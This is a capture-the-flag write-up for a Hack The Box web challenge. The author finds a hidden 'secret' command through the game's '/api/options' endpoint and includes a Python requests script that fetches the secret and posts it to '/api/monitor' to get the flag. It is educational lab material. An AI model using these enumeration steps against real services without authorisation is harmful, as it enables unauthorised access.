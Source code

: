 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![Pasted image 20250502073519](../../../../../../Screenshots/Pasted%20image%2020250502073519.png)


Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:
![Pasted image 20250502073705](Cybersecurity/Screenshots/Pasted%20image%2020250502073705.png)

Going through the adventure with the available adventure options, we die and have to start again:
![Pasted image 20250502073841](Cybersecurity/Screenshots/Pasted%20image%2020250502073841.png)

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![Pasted image 20250502074403](Cybersecurity/Screenshots/Pasted%20image%2020250502074403.png)

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![Pasted image 20250502075240](Cybersecurity/Screenshots/Pasted%20image%2020250502075240.png)

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![Pasted image 20250502075512](Cybersecurity/Screenshots/Pasted%20image%2020250502075512.png)

Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![Pasted image 20250502075557](Cybersecurity/Screenshots/Pasted%20image%2020250502075557.png)
Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![Pasted image 20250502075817](Cybersecurity/Screenshots/Pasted%20image%2020250502075817.png)

# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![Pasted image 20250502090111](Cybersecurity/Screenshots/Pasted%20image%2020250502090111.png)
